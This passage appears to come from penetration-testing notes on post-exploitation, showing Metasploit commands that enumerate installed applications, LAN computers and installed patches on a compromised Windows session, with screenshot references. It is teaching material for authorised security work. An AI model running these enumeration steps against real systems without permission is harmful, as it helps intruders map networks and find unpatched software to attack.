 ```bash
use post/windows/gather/enum_applications
set SESSION 1
run
```

![Metasploit - post/windows/gather/enum_applications](5-post-exploitassets/image-20230427200038884.png)

- Enumerate same **LAN computers**

```bash
use post/windows/gather/enum_computers
set SESSION 1
run
```

![Metasploit - post/windows/gather/enum_computers](5-post-exploitassets/image-20230427200204748.png)

- Enumerate **installed updates/patches**

```bash
use post/windows/gather/enum_patches
set SESSION 1
run
```
